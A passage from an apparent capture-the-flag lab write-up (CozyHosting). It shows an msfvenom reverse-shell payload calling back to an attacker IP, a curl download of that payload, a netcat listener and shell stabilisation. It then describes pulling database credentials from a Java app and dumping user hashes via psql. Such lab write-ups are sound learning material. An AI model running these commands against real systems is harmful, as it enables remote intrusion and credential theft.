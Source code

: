 ```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=31337 -f elf -o oops
```
```
curl http://10.10.14.22:8000/oops -o oops
```
```
sudo nc -lvnp 31337
```
Then I execute oops in my jail shell and I get another callback that I can stabilize:
```
/bin/bash -i
```
```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
```
Now that I have that sorted I see that the /app folder has the web application jar in it.

Not sure if I need it but I grab the jar at /app/cloudhosting-0.0.1.jar - I run an http.server on python and curl it from my attack host.

I don't have an application for reversing .jar files. I learn from the walkthroughs after completing that box that you can just unzip the .jar with the unzip or 7z tool. I google around and settle on the jd-gui package - which provides... a nice GUI.

jd-gui is very easy to use. I poked around in the .class files until I located an "application.properties".

![[Pasted image 20250613143544.png]]

This reveals the creds for the postgres user.

I kept enumerating the jar and I also found the handler code for that /executessh route.

![[Pasted image 20250613143707.png]]

Moving back to the creds, I see from /etc/passwd, the postgres user has a shell.

![[Pasted image 20250613143836.png]]

But a su command to the postgres user fails. 

So now I have to access the postgres console. I have never worked in postgres so I rely heavily on Google for a how-to.

The internet says to use a program called "psql" like this:
https://neon.com/postgresql/postgresql-cheat-sheet
```
psql -d cozyhosting -h localhost -p 5432 -U postgres
```

![[Pasted image 20250613144334.png]]

I enumerate the database and find the user table.

![[Pasted image 20250613144935.png]]

I have seen that hash prefix before - those are blowfish hashes. Which are nearly impossible to crack,

